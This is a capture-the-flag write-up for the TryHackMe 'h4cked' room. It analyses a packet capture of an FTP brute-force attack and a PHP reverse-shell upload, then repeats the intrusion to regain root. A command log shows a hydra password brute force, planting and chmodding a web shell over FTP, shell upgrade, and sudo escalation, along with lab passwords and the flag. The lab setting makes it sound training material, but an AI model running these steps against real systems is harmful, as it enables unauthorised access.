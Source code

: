 # TryHackMe -  h4cked

<fieldset>

<legend>Room Information</legend>

- **Name:** [link](example.com)
- **Category:** Forensics
- **Type**: Challenge, boot2root
- **Difficulty:** Easy
- **Tools**:
  - Wireshark
  - Hydra
- **Skills Learned**
  - Packet Analysis
  - Packet Tracing

</fieldset>

## Description

> Find out what happened by analysing a .pcap file and hack your way back into the machine

---

## Task1:  Oh no! We've been hacked! 

The attacker is bruteforcing FTP, trying to guess user jenny's password.

![image-20210527230356870](_resources/image-20210527230356870.png)

The attacker successfully guessed jenny's password which is `password123`.

![image-20210527230736975](_resources/image-20210527230736975.png)

With FTP access, the attacker dropped a web shell backdoor called `shell.php` on /var/www/html

![image-20210527230857512](_resources/image-20210527230857512.png)

Web shell code: https://github.com/pentestmonkey/php-reverse-shell

![image-20210527231546019](_resources/image-20210527231546019.png)

The attacker triggered the web shell via browser.

![image-20210527232048359](_resources/image-20210527232048359.png)

The attacker gained foothold on the system

![image-20210527232211354](_resources/image-20210527232211354.png)

The attacker escalating to user jenny and then to root straightly via `sudo su`. The attacker also trying to implant a [rootkit](https://github.com/f0rb1dd3n/Reptile).

![image-20210527232435246](_resources/image-20210527232435246.png)

## Task 2: Hack your way back into the machine

Jenny password has ben changed to `987654321`.

![image-20210527234012972](_resources/image-20210527234012972.png)

Backdooring backdoor

![image-20210527234443736](_resources/image-20210527234443736.png)

Put the shell back.

![image-20210527234913535](_resources/image-20210527234913535.png)

Foothold

![image-20210527235120713](_resources/image-20210527235120713.png)

Privilege escalation

![image-20210527235533175](_resources/image-20210527235533175.png)

Flag

![image-20210527235643305](_resources/image-20210527235643305.png)

## Commands log

```
hydra -l jenny -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt ftp://10.10.134.91
ftp> mget shell.php
ftp> put shell.php hackback.php
ftp> site chmod 777 hackback.php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su - jenny               
su - jenny
Password: 987654321
jenny@wir3:~$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:~$ sudo su -
sudo su -
root@wir3:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wir3:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Feb  2 10:23 .
drwxr-xr-x 22 root root 4096 Feb  2 10:28 ..
lrwxrwxrwx  1 root root    9 Feb  2 10:20 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  7 root root 4096 Feb  2 10:23 Reptile
root@wir3:~# cd Reptile	
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```

